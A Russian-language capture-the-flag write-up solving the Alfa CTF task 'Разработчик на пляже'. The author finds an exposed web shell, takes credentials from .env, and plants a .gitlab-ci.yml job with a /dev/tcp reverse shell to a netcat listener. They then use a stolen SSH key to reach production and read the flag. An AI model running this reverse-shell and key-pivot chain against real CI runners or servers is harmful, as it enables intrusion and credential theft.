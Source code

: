 ```yaml
---
created: "14-09-2025"
title: "Alfa CTF: Разработчик на пляже"
author: Sviatoslav Murzin
tags: ["medium"]
---
```


# Alfa CTF: Разработчик на пляже

Всем хай, это первая задача alfa CTF, которую я решал и задача, где я заюзал reverse-shell

Вот условие задачи:

> У вашего коллеги не просто отпускное настроение — он нашёл для себя идеальный баланс: минимум усилий, максимум времени на пляже. Его подход прост: скорость важнее правил, удобство важнее безопасности, лучше собрать коллекцию ракушек, чем писать тесты. Такая философия оставляет заметные следы, и внимательный взгляд сможет превратить их в ключ к следующему флагу.
>
> Блог чиллового разработчика: secretshell-s6xix3a7.alfactf.ru/
>

Когда мы заходим на сайт, вот что мы видим:

![website](/markdown/images/alfactf_secretshell_website.png)

Читаем и понимаем, что это сайт с записками сумасшедшего... Чуваку надоела промышленная медленная разработка и пошел во все тяжкие, его можно понять, но это слишком жестко...

Больше всего привлекает внимание его статья про вебшелл. Начинаем искать что-то, что могло быть спрятано от наших глаз: с самого начала я пытался найти какой-то аргумент в поисковой строке для RCE, но все попытки были тщетны.
Потом я пытался запустить gobuster, чтобы найти какую-то директорию, но в итоге своими ручками решил пробить `/shell.php` и о чудо!

![shell](/markdown/images/alfactf_secretshell_shell.png)


Забираем с собой креды из `.env`, параллельно думая о великой силе скоростной разработки и как не странно догадаться следующим шагом заходим в гитлаб

![gitlab](/markdown/images/alfactf_secretshell_gitlab.png)

Тут лежит папка с проектом, далее я просто шерстим через весь гитлаб в поисках интересностей, но ничего кроме этого проекта и настроенной джобы не было

Сразу появляется идея с reverse-shell'ом в gitlab runner, подготавливаем для этого почву: запускаем netcat, запускаем ngrok и создаём `.gitlab-ci.yml`

```yml
stages: 
  – malicious 

malicious: 
  stage: malicious 
  script: 
    – /bin/sh -i >& /dev/tcp/<IP>/<PORT> 0>&1 `
```

где IP и PORT вытягиваются из запущенного ngrok'а 

Запускаем pipeline и получаем в окне с netcat'ом reverse-shell

```shell
svetsec@svetsec-laptop:~$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 127.0.0.1 60258
/bin/sh: 0: can't access tty; job control turned off
$ ls
README.md
assets
build
index.php
post-commit-directly-to-main.php
post-disable-tests.php
post-hardcode-secrets.php
post-logging-off.php
post-requirements-skim.php
post-web-shell.php
```

Ну естественно исследуем все, что есть на этом гитлаб раннере, и... лично я долго не мог понять, что к чему и что и куда вообще тыкаться, прошел час, полтора и наконец-то набрел на файлик `.bash_history`, который дает очень хорошую подсказку касательно прода)))

```shell
$ cat .bash_history
ssh -i ~/.ssh/id_rsa prod@production
exit
$ ssh -i ~/.ssh/id_rsa prod@production
Pseudo-terminal will not be allocated because stdin is not a terminal.
Host key verification failed.
$ Pseudo-terminal will not be allocated because stdin is not a terminal.
/bin/sh: 104: Pseudo-terminal: not found
$ ssh -i ~/.ssh/id_rsa -T prod@production
Host key verification failed.
```

Почему-то застопорился на ошибке с `Host key verification failed`, но быстро осознал, что надо создать файл `known_hosts` внутри папки `.ssh`, странно, почему меня утилита не спросила, хочу ли я добавить в `known_hosts`? Ну да ладно, идем дальше

```shell
$ ssh-keyscan production >> ~/.ssh/known_hosts
# production:22 SSH-2.0-OpenSSH_10.0p2 Debian-7
# production:22 SSH-2.0-OpenSSH_10.0p2 Debian-7
# production:22 SSH-2.0-OpenSSH_10.0p2 Debian-7
# production:22 SSH-2.0-OpenSSH_10.0p2 Debian-7
# production:22 SSH-2.0-OpenSSH_10.0p2 Debian-7
```

И пробуем вновь...

```shell
$ ssh -T -i ~/.ssh/id_rsa prod@production
Warning: Permanently added the ECDSA host key for IP address '172.25.136.2' to the list of known hosts.

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ls
flag.txt
cat flag.txt
alfa{.........................}
```

Флаг я зацензурил, он не так важен, не так ли?

От задачки я очень сильно кайфанул, никогда еще не удавалось решать что-то связанное с reverse-shell'ом до этого момента, да и идея с тем, чтобы сделать это на раннере... Уфффф, очень хорошо.
